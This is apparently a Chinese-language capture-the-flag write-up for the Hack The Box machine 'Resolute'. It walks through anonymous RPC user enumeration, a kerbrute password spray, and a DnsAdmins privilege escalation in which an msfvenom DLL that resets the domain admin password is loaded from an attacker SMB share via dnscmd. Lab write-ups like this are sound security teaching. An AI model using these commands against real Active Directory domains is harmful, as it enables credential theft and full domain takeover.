









## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/Resolute  
❯ nmap Resolute.htb -sV -T4

PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos 
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows
```

把**megabank.local**添加到**/etc/hosts**

## UserEnum

```
[root@kali] /home/kali/Resolute  
❯ enum4linux -a megabank.local  

--or you can use this below

[root@kali] /home/kali/Resolute  
❯ rpcclient -U "" -N 10.10.xx.xx
rpcclient $> enumdomusers

--results
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
user:[angela] rid:[0x19ce]
user:[felicia] rid:[0x19cf]
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]
```

通过**kerbrute**检查是否存在

```
[root@kali] /home/kali/Resolute  
❯ kerbrute userenum -d megabank.local usernames.txt --dc 10.10.xx.xx                                                     

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - Ronnie Flathers @ropnop

  Using KDC(s):
   10.10.xx.xx:88
  [+] VALID USERNAME:       Administrator@megabank.local
  [+] VALID USERNAME:       sally@megabank.local
  [+] VALID USERNAME:       ryan@megabank.local
  [+] VALID USERNAME:       marko@megabank.local
  [+] VALID USERNAME:       abigail@megabank.local
  [+] VALID USERNAME:       sunita@megabank.local
  [+] VALID USERNAME:       marcus@megabank.local
  [+] VALID USERNAME:       angela@megabank.local
  [+] VALID USERNAME:       fred@megabank.local
  [+] VALID USERNAME:       stevie@megabank.local
  [+] VALID USERNAME:       felicia@megabank.local
  [+] VALID USERNAME:       ulf@megabank.local
  [+] VALID USERNAME:       gustavo@megabank.local
  [+] VALID USERNAME:       annette@megabank.local
  [+] VALID USERNAME:       claire@megabank.local
  [+] VALID USERNAME:       paulo@megabank.local
  [+] VALID USERNAME:       steve@megabank.local
  [+] VALID USERNAME:       annika@megabank.local
  [+] VALID USERNAME:       claude@megabank.local
  [+] VALID USERNAME:       zach@megabank.local
  [+] VALID USERNAME:       melanie@megabank.local
  [+] VALID USERNAME:       per@megabank.local
  [+] VALID USERNAME:       naoki@megabank.local
  [+] VALID USERNAME:       simon@megabank.local
```

我使用**impacket-GetNPUsers**查询了未设置预认证的用户，没有发现任何东西

在**rpcclient**里查询用户信息的时候我发现了**marko**用户泄露的密码（很碰巧



## PasswordSpray

密码无法直接登录到**marko**的账户，尝试使用**kerbrute**密码喷射尝试认证

```
[root@kali] /home/kali/Resolute  
❯ kerbrute passwordspray  -d 'megabank.local' --dc 'megabank.local'  usernames.txt 'xxxxxxxxx'    

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - Ronnie Flathers @ropnop

  Using KDC(s):
   megabank.local:88
  [+] VALID LOGIN:  melanie@megabank.local:xxxxxxxxxxx
  Done! Tested 27 logins (1 successes) in 0.909 seconds
```

可以看到**melanie**用这个密码成功登录

使用**Evil-Winrm**登录拿到**user.txt**



## Privilege Escalation

可以看到还存在另一个**ryan**用户



### Hidden Files

使用`dir -force`可以列出隐藏文件



发现了一个隐藏的文件



发现了**ryan**的密码



登录后在桌面发现一个留言，除了管理员其他任何改动都会在一分钟内恢复



### DNS DLL Inject

- [](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)[From DnsAdmins to SYSTEM to Domain Compromise | Red Team Notes](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)

- [](https://medium.com/r3d-buck3t/escalating-privileges-with-dnsadmins-group-active-directory-6f7adbc7005b)[Escalating Privileges with DNSAdmins Group | by Nairuz Abulhul | R3d Buck3T | Medium](https://medium.com/r3d-buck3t/escalating-privileges-with-dnsadmins-group-active-directory-6f7adbc7005b)

从**bloodhound**来进行分析可以看出，**ryan**用户简介属于**Dnsadmins**这个组



使用**msfvenom**生成一个带有修改管理员密码载荷的恶意**dll**文件

```
[root@kali] /home/kali/Resolute  
❯ msfvenom -p windows/x64/exec cmd='net user administrator 12345678 /domain' -f dll > hack.dll                                     ⏎
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 307 bytes
Final size of dll file: 9216 bytes
```

本地打开smb服务让ryan连接

```
[root@kali] /home/kali/Resolute  
❯ impacket-smbserver share ./                                                                                                      
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

然后在**ryan**的终端里修改**dns**设置

```
*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd 127.0.0.1 /config /serverlevelplugindll \\10.10.xx.xx\share\hack.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully
```

然后重启**dns**服务

```
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe stop dns
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe start dns
```

最后使用**evil-winrm**登录拿到**root.txt**



## Summary

**User**：在进行**enum4linux**枚举的时候，发现了用户信息的泄露，并且允许了匿名访问，因此在**rpcclient**里查看到了泄露的密码，通过密码喷射找出正确的用户名，最后登录拿到**user.txt**

**Root**：**Windows**下的隐藏文件使用`dir -force`可以列出，通过泄露拿到另一个用户**ryan**的密码。经过**bloodhound**分析，发现**ryan**是**dnsadmin**可以控制域内的**DNS**服务，因此使用恶意的**DNS DLL**进行注入，强制修改域内管理员的密码（在**note**中得知管理员密码不会被恢复），随后远程登录拿到**root.txt**。

又学到新东西了！！！
